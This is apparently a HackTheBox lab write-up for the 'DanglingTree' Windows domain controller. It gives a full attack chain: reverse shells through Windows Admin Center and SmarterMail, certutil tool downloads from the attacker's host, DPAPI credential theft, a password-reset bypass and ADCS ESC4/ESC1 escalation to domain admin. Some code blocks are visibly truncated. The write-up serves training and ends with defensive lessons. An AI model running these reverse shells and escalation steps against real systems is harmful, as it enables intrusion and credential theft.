# DanglingTree HackTheBox Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | DanglingTree |
| **Platform** | HackTheBox |
| **OS** | Windows Server 2025 |
| **Difficulty** | Hard |
| **Domain** | danglingtree.htb |

---

## Enumeration

### Nmap

```bash
nmap -sCV -p- 10.129.55.198
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: danglingtree.htb)
443/tcp   open  ssl/https
445/tcp   open  microsoft-ds
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap
3389/tcp  open  ms-wbt-server
6600/tcp  open  ssl/mshvlm?
9389/tcp  open  mc-nmf        .NET Message Framing
...
```

Standard Windows DC layout, but port **6600** stands out. Nmap flags it as `ssl/mshvlm?` (uncertain), but the SSL certificate points to `danglingtree.htb` that's Windows Admin Center (WAC) running on a non-standard port. Also noting SMB signing is required, which rules out some relay attacks, and clock skew is minimal.

### SMB Anonymous Access & RoE Document

```bash
smbclient -L //$target/
# IT share accessible anonymously

smbclient //$target/IT
smb: \> cd Security\
smb: \Security\> dir
# DanglingTree_RoE_Assessment.pdf  (28905 bytes)
``
The IT share has a Rules of Engagement PDF a setup that's meant to simulate a red team assessment. The PDF contains:

Username:    anderson.w
Password:    R3dT3am@Acc3ss#01
Account Type: Standard Domain User (Low-Privileged)
```

We get credentials just by reading a document in a world-readable share.

```bash
smbmap -u "anderson.w" -p "R3dT3am@Acc3ss#01" -H $target
# IT share: NO ACCESS (authenticated users lose READ on IT)
```

Interesting quirk: the anonymous guest account could read IT, but authenticated `anderson.w` can't. Classic misconfigured share permissions where guest is over-privileged.

### BloodHound Round 1 Dead End

I run BloodHound with `anderson.w` to quick collect domain data but didn't reveal any actionable attack paths from this user's perspective. No interesting ACEs, no Kerberoastable accounts, no AS-REP roastable users.

---

## Initial Foothold

### Port 6600 Windows Admin Center RCE

Port 6600 hosts Windows Admin Center (WAC) a web-based server management interface by Microsoft. Logging in with `anderson.w:R3dT3am@Acc3ss#01` works
WAC has a built-in PowerShell console feature for managing remote nodes. After exploring the interface, the underlying API endpoint for executing PowerShell on the DC is:

```
POST /api/services/WinREST/PowerShell/nodes/dc/invokeCommand
```



```powershell
# Payload in the script field:
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.23',9900);
$stream = $client.GetStream();
# ...standard PowerShell TCP reverse shell...
```

With a listener ready:

```
nc -lvnp 9900
```

Sending the modified request gives us a shell:

```
connect to [10.10.15.23] from (UNKNOWN) [10.129.56.108] 54876
PS C:\Users\anderson.w\Documents>
```

### Post-Exploitation Enumeration as anderson.w

Key findings from enumeration as `anderson.w`:

1. **SmarterMail installation** present at `C:\Program Files (x86)\SmarterTools\SmarterMail\`
2. **Internal mail ports** listening only on localhost:
   ```
   TCP 127.0.0.1:25    LISTENING (SMTP)
   TCP 127.0.0.1:110   LISTENING (POP3)
   TCP 127.0.0.1:143   LISTENING (IMAP)
   TCP 127.0.0.1:587   LISTENING (SMTP submission)
   TCP 127.0.0.1:5222  LISTENING (XMPP/Chat)
   ```
3. **SmarterMail web UI** running on `127.0.0.1:17017` not externally accessible

### Tunneling Chisel + nc.exe

The WAC shell is unstable for extended work. so i stabilize with nc.exe in another terminal and set up a Chisel tunnel to reach the internal SmarterMail web interface.

```bash
# Attacker: serve files
python3 -m http.server 8888

# Target (via WAC shell): download tools
certutil -urlcache -f http://10.10.15.23:8888/chisel.exe C:\Users\anderson.w\chisel.exe
certutil -urlcache -f http://10.10.15.23:8888/nc.exe C:\Users\anderson.w\nc.exe
```powershell
# Stable reverse shell via nc.exe
Start-Process C:\Users\anderson.w\nc.exe -ArgumentList '10.10.15.23 6666 -e powershell.exe' -NoNewWindow
```

```bash
# Attacker: chisel server
chisel server --reverse --port 7766

# Target (nc shell): chisel client to forward port 17017
.\chisel.exe client 10.10.15.23:7766 R:17017:127.0.0.1:17017
```

SmarterMail is now reachable at `http://localhost:17017` from our machine.

---

## SmarterMail Auth Bypass (WT-2026-0001)

### Unauthenticated Password Reset

SmarterMail running here is vulnerable to an authentication bypass that allows resetting any user's password without knowing the original documented by WatchTowr as [WT-2026-0001](https://labs.watchtowr.com/attackers-with-decompilers-strike-again-smartertools-smartermail-wt-2026-0001-auth-bypass/).

The vulnerability lies in the `force-reset-password` endpoint accepting a JSON body that includes `"IsSysAdmin":"true"` which the server trusts without verification, granting admin-level password reset capabilities to any caller.

```bash
curl -X POST http://127.0.0.1:17017/api/v1/auth/force-reset-password \
  -H "Content-Type: application/json" \
"ConfirmPassword":"P@ssword123!"}'
```

```json
{
  "success": true,
}
```

`svc_mail`'s password is now `P@ssword123!`.

### Logging in to SmarterMail



Logged in as `svc_mail`. As a system administrator account for the mail server, we have access to the full management interface.

### Finding 1: Attach Domain Credential Harvest

Exploring the Manage section reveals a domain management interface. Under the three-dot menu (⋮), there's an **Attach Domain** option:



This feature lets you attach a domain folder by path. During enumeration as `anderson.w`, i found a backup domain folder at `C:\SmarterMail\Domains\danglingtree.htb.bak`. 



The backup domain exposes **all 6 user accounts with plaintext passwords**:

```
emma.s    : EmmaSecure2026!Pass
liam.m    : LiamPowerPass@2026
noah.b    : RiverDragon#Storm25
oliver.t  : OliverStrong#24Pass
sophia.k  : SophiaSecure!Pass24
svc_mail  : OceanWave#9Sky!
```

Checking which accounts are valid local users:

```bash
nxc smb $target -u users.txt -p passwords.txt --no-bruteforce
```

Only `noah.b:RiverDragon#Storm25` comes back as a valid local user. The rest return as Guest.

### Finding 2: Volume Mount RCE Shell as svc_mail

SmarterMail's Settings > Volume Mounts section allows defining mount paths with custom commands that execute when the mount is triggered. This is designed for filesystem mounts, but the command field executes arbitrary OS commands.

Navigation path:



Creating a new volume mount:



```
Volume Mount Path: C:\
Volume Mount Command: powershell.exe -nop -w hidden -e
```

The base64 is a standard PowerShell TCP reverse shell pointing to our listener. Click **Save** the command executes immediately:

```bash
nc -lnvp 4433
# PS C:\Program Files (x86)\SmarterTools\SmarterMail\Service>
```

Shell as `svc_mail`.

---

## Lateral Movement


`svc_mail` can't directly access noah.b's home directory. i use **RunasCs** to spawn a shell as `noah.b` using the password we recovered from the .bak domain:



```bash
# Transfer RunasCs to target
certutil -urlcache -f http://10.10.15.23:3377/RunasCs.exe C:\Users\svc_mail\RunasCs.exe
```

```powershell
# Spawn noah.b shell
PS C:\Users\svc_mail> .\RunasCs.exe noah.b RiverDragon#Storm25 cmd -r 10.10.15.23:4446
```

```
[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Async process 'cmd.exe' with pid 2988 created in background.
```

# Listener catches noah.b
```
C:\Windows\System32> whoami
danglingtree\noah.b
C:\Users\noah.b\Desktop> type user.txt
f29ba3f1383abcREDACTED956821de
```

User flag captured.

### DPAPI Recovering alex.o Credentials

Enumerating noah.b's stored credentials:

```
C:\Users\noah.b\Desktop> cmdkey /list

Target: Domain:target=PC01.danglingtree.htb
Type:   Domain Password
User:   alex.o
```

There's a saved credential for `alex.o`. Windows stores these encrypted with DPAPI. The encrypted blob lives in `AppData\Roaming\Microsoft\Credentials\`, and the decryption key (master key) lives in

```
# Find the credential file
dir /a C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials
# 57FFB67D684C67F09E7153B9C7CC3940  (490 bytes)

# Find the master key
dir /a C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602
# f53fcaba-f057-48e8-8f92-0180d274bf0f  (876 bytes)
# BK-DANGLINGTREE                       (924 bytes)
# Preferred                             (24 bytes)
```

Exfiltrating both files via `Powershell` convert to base64:

```powershell
# Credential blob
[Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials\57FFB67D684C67F09E7153B9C7CC3940"))
# AQAAAN4BAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAuso/9Vfw6Ei...

# Master key
[Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602\f53fcaba-f057-48e8-8f92-0180d274bf0f"))
# AgAAAAAAAAAAAAAAZgA1ADMAZgBjAGEAYgBhAC0AZgAwADUANwAtADQAOABl...
```
# Credential Blob


# Master Key


Decoding and decrypting on Kali:

```bash
echo "AQAAAN4..." | base64 -d > 57FFB67D684C67F09E7153B9C7CC3940
echo "AgAAAAAA..." | base64 -d > f53fcaba-f057-48e8-8f92-0180d274bf0f
```

```bash
# Decrypt master key using noah.b's login password
impacket-dpapi masterkey \

  -sid "S-1-5-21-4220238332-57023728-1129110646-1602" \
  -password 'RiverDragon#Storm25'
```

```
Decrypted key with User Key (MD4 protected)
Decrypted key: 0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8
```

```bash
# Decrypt credential blob
impacket-dpapi credential \
  -file 57FFB67D684C67F09E7153B9C7CC3940 \
  -key "0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8"
```

```
[CREDENTIAL]
Target:   Domain:target=PC01.danglingtree.htb
Type:     CRED_TYPE_DOMAIN_PASSWORD
Username: alex.o
Password: SunsetMountainPeak@2025
```

### BloodHound Round 2 ForceChangePassword Path


```bash
bloodyad -d danglingtree.htb -u alex.o -p 'SunsetMountainPeak@2025' \
  --host 10.129.56.173 get bloodhound
```




**Why alex.o and jake.h looked "hidden" initially,** With `anderson.w`'s limited domain privileges, BloodHound's first collection didn't expose the ACE relationships tied to these accounts. `jake.h` and `alex.o` are visible via RID brute-forcing but don't surface in standard LDAP enumeration by low-privilege users. The key is that `alex.o` belongs to `SUPPORT-IT`, a group that has an explicit `ForceChangePassword` ACE on `jake.h` an edge that only becomes actionable once i hold `alex.o`'s credentials and can see it in the graph. This is a deliberate box design, credentials are "dangling" (hence the machine name) in DPAPI-protected blobs, waiting to be pulled by someone who pivots through noah.b.


```bash
bloodyad -d danglingtree.htb -u alex.o -p 'SunsetMountainPeak@2025' \
  --host 10.129.56.173 set password jake.h 'P@ssword123!'
```

```
[+] Password changed successfully!
```
---

## Privilege Escalation ADCS ESC1 + ESC4

### Discovery

```bash
certipy-ad find -u 'jake.h' -p 'P@ssword123!' \
  -dc-ip 10.129.56.173 -stdout
```



The `VPNUserTemplate` is vulnerable to two ADCS attacks:

- **ESC1**: The template allows the enrollee to supply a custom Subject Alternative Name (UPN), enabling impersonation of any AD user including Administrator
- **ESC4**: `jake.h` owns this template (Full Control), meaning we can modify it at will including configuring it to become exploitable for ESC1

### Direct ESC1 Fails First


```bash
certipy-ad req -u 'jake.h' -p 'P@ssword123!' \
  -dc-host 'danglingtree.htb' -dc-ip 10.129.56.173 -target-ip 10.129.56.173 \
  -ca 'danglingtree-DC-CA' -template 'VPNUserTemplate' \
  -upn 'administrator@danglingtree.htb'
```


The CA doesn't recognize the template in its current configuration. This is where ESC4 comes in we use our template ownership to modify it into a form the CA accepts.

### ESC4 First Template Modification

```bash
certipy-ad template -u 'jake.h' -p 'P@ssword123!' \
  -dc-host 'danglingtree.htb' -dc-ip 10.129.56.173 -target-ip 10.129.56.173 \
  -template 'VPNUserTemplate' -write-default-configuration
```

```
[*] Saving current configuration to 'VPNUserTemplate.json'
[*] Updating certificate template 'VPNUserTemplate'
[*] Replacing: nTSecurityDescriptor, flags, pKIDefaultKeySpec, pKIKeyUsage ...
```

The template is now in the standard ESC1-exploitable format.

### ESC1 Certificate Request

```bash
certipy-ad req -u 'jake.h' -p 'P@ssword123!' \
  -dc-host 'danglingtree.htb' -dc-ip 10.129.56.173 -target-ip 10.129.56.173 \
  -ca 'danglingtree-DC-CA' -template 'VPNUserTemplate' \
  -upn 'administrator@danglingtree.htb'
```

```
[*] Request ID is 36
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@danglingtree.htb'
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Wrote certificate and private key to 'administrator.pfx'
```

### Object SID Mismatch Fix

Trying to authenticate with this cert fails:

```
[-] Object SID mismatch between certificate and user 'administrator'
```

Windows Server 2025 enforces SID embedding in certificates. i need to explicitly include the Administrator's SID in the certificate request. (fact = admin user in `Active Directory` always start with SID 500)

```bash
impacket-lookupsid danglingtree.htb/jake.h:'P@ssword123!'@10.129.56.173
# S-1-5-21-4220238332-57023728-1129110646
# 500: DANGLINGTREE\Administrator
```

Administrator SID: `S-1-5-21-4220238332-57023728-1129110646-500`

Re-request with SID:

```bash
certipy-ad req -u 'jake.h' -p 'P@ssword123!' \
  -dc-host 'danglingtree.htb' -dc-ip 10.129.56.173 -target-ip 10.129.56.173 \
  -ca 'danglingtree-DC-CA' -template 'VPNUserTemplate' \
  -upn 'administrator@danglingtree.htb' \
  -sid 'S-1-5-21-4220238332-57023728-1129110646-500'
```

```
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@danglingtree.htb'
[+] Found SID in SAN URL: 'S-1-5-21-4220238332-57023728-1129110646-500'
[+] Found SID in security extension: 'S-1-5-21-4220238332-57023728-1129110646-500'
[*] Wrote certificate and private key to 'administrator.pfx'
```

### Clock Skew Fix

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.56.173
```

```
[-] Got error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Sync clock:

```bash
sudo ntpdate -u 10.129.56.173
# 2026-10-08 18:23:51.393073 (+0700) +25142.208148 +/- 0.010982
```

### Domain Compromise

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.56.173
```

```
[*] Using principal: 'administrator@danglingtree.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@danglingtree.htb': aad3b435b51404eeaad3b435b51404ee:8cacb3a97e460c65d105ca7cd9913925
```

```bash
impacket-psexec danglingtree.htb/administrator@10.129.56.173 \
  -hashes aad3b435b51404eeaad3b435b51404ee:8cacb3a97e460c65d105ca7cd9913925
```

```
[*] Found writable share ADMIN$
[*] Uploading file oclKYuvy.exe
[*] Creating service MHqW on 10.129.56.173.....
[*] Starting service MHqW.....
Microsoft Windows [Version 10.0.26100.33158]

C:\Windows\System32> whoami
nt authority\system
```

---

## Root

```
C:\Users\Administrator\Desktop> type root.txt
77232e38de261492REDACTED3c48120
```

---

## Lessons Learned

**World-readable SMB shares with sensitive documents are a direct foothold.** The IT share gave us credentials on the first look, no exploitation needed. Any share accessible to anonymous/guest should be considered public if your engagement documentation contains creds, keep it out of world-readable storage.

**Windows Admin Center's PowerShell feature is a built-in RCE surface.** WAC is a legitimate management tool, but exposing it to non-admin users (or with low-privilege accounts) with PowerShell access is effectively giving them remote code execution on the managed nodes. WAC should be admin-only and ideally not exposed on internet-facing or pentest-accessible interfaces.

**SmarterMail's auth bypass (WT-2026-0001) is a reminder to audit mail server management APIs.** The `force-reset-password` endpoint trusted a client-supplied `IsSysAdmin` field without server-side validation. Any admin functionality exposed via API should have server-enforced authorization, never client-supplied privilege levels.

**Backup domain files (.bak) can expose every user's plaintext credentials.** SmarterMail stores domain configuration including user passwords in domain backup files. Attaching a `.bak` file through the admin UI gives full visibility intoaccount or any compromised account.

**DPAPI is only as safe as the user's login credentials.** noah.b's stored credential for `alex.o` was protected by DPAPI using noah.b's own password as the key. Once we had noah.b's shell and their password (`RiverDragon#Storm25` from the .bak), decrypting the stored credential was trivial with impacket-dpapi. DPAPI provides excellent protection against offline attacks but offers no protection once the user's session or password is compromised.

**ESC4 + ESC1 is a powerful combo on Windows Server 2025.** Server 2025 added SID-embedding requirements that break naive ESC1 attacks but the fix is just using `-sid` to explicitly embed the target SID. Template ownership (ESC4) lets you reshape a template that the CA doesn't initially recognize into one it will issue. Always enumerate ADCS templates after gaining any domain user, especially with template ownership checks.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning |
| **smbclient / smbmap** | SMB share enumeration |
| **bloodhound-python / bloodyad** | AD enumeration & BloodHound data collection |
| **chisel** | Reverse SOCKS / port forwarding tunnel |
| **nc.exe** | Stable reverse shell on Windows target |
| **RunasCs.exe** | Lateral movement run commands as another user |
| **impacket-dpapi** | DPAPI masterkey & credential decryption |
| **certipy-ad** | ADCS enumeration (find), template modification (template), cert request (req), auth (auth) |
| **impacket-lookupsid** | Enumerate domain SIDs |
